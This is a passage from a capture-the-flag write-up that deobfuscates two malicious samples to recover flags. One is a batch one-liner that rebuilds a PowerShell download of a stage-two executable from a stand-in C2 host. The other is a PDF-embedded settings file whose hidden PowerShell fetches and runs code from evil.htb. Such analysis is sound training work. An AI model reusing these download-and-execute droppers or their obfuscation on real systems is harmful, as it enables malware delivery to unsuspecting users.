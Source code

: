 ```
%TEMP:~-8,1%md /C"set ltS=S_a1w@&&set AQ8f=le %TE&&set nP=%/a.exe&&set W5vl=00k};&&set azS=k3y_i&&set Nime=ys&&set ei=shell&&set CJO=power&&set qg=_4_g0o&&set qh7P=MP&&set txfY=%TEMP%/a.exe&&set iQ= -c 'wget http://mal&&set rZM=icious.c2.h&&set SlZ= &&set 0PU='; SET flag=HTB{rUn_Run_ruN_&&set eoOa=D_plac3_2_l&&set R3=tb/stage2 -outfi&&call set xg=%CJO%%ei%%iQ%%rZM%%R3%%AQ8f%%qh7P%%nP%%0PU%%azS%%ltS%%Nime%%qg%%eoOa%%W5vl%%SlZ%%txfY%&&call echo %xg%"|cmd
```


If we focus on this part

```
xg=%CJO%%ei%%iQ%%rZM%%R3%%AQ8f%%qh7P%%nP%%0PU%%azS%%ltS%%Nime%%qg%%eoOa%%W5vl%%SlZ%%txfY%&&call echo %xg%
```

and go through and recombine each piece in the order given, CJO || ei || iQ ... etc, etc we will get the following

```
powershell -c 'wget http://malicious.c2.htb/stage2 -outfile %TEMP%/a.exe'; SET flag=HTB{rUn_Run_ruN_k3y_iS_a1w@ys_4_g0oD_plac3_2_l00k}; ...
```

Flag: HTB{rUn_Run_ruN_k3y_iS_a1w@ys_4_g0oD_plac3_2_l00k}

### PhishinImpossible

if we use

    pdf-parser PhishinImpossible.pdf -f | grep HTB

we get this 

```
b'Settings>\n  <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">\n    <ApplicationInformation>\n      <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>\n      <DeepLink
>%windir%\\system32\\cmd.exe /c pow^ers^He^l^l.exe -nO^p -w hid^den -c $I=new-object net.webclient;$flag="HTB{th1s_m3";$I.proxy=[Net.Webrequest]::GetSystemWebProxy();$flag=$flag+"sS@gE_w1ll_s3lf";$I.Proxy.Credentials=[Net.CredentialsCache]::DefaultCred
entials;$flag=$flag+"_d3StRuC7}";IEX $.downloadstring(\'http://evil.htb/home\');</DeepLink>\n      <Icon>%windir%\\system32\\control.exe</Icon>\n    </ApplicationInformation>\n    <SettingIdentity>\n      <PageID></PageID>\n      <HostID>{12B1697E-D3A0
-4DBC-B568-CCF64A3F934D}</HostID>\n    </SettingIdentity>\n    <SettingInformation>\n      <Description>@shell32.dll,-4161</Description>\n      <Keywords>@shell32.dll,-4161</Keywords>\n    </SettingInformation>\n  </SearchableContent>\n</PCSettings>\n'
```

which we can visually scan and concatenate the flag parts into the whole flag

Flag: HTB{th1s_m3sS@gE_w1ll_s3lf_d3StRuC7}



<h1 align="center">Misc</h1>

### Blobber
